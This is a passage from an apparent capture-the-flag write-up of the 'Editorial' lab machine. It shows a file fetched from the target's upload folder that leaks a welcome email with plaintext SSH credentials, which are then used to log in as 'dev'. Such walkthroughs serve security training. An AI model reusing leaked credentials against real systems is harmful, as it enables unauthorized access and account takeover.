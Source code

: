 ![](../assets/Pasted%20image%2020250518133613.png)

```shell
$ wget http://editorial.htb/static/uploads/99b69cd0-bc8c-4713-897f-207c8841e123

$ cat 99b69cd0-bc8c-4713-897f-207c8841e123 | jq .
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."                                                                                         
}
```

## Initial Access

Connect to the machine via `ssh`:

```shell
$ ssh dev@10.10.11.20           
The authenticity of host '10.10.11.20 (10.10.11.20)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.20' (ED25519) to the list of known hosts.
dev@10.10.11.20's password: 
Permission denied, please try again.
dev@10.10.11.20's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$ whoami
dev
```
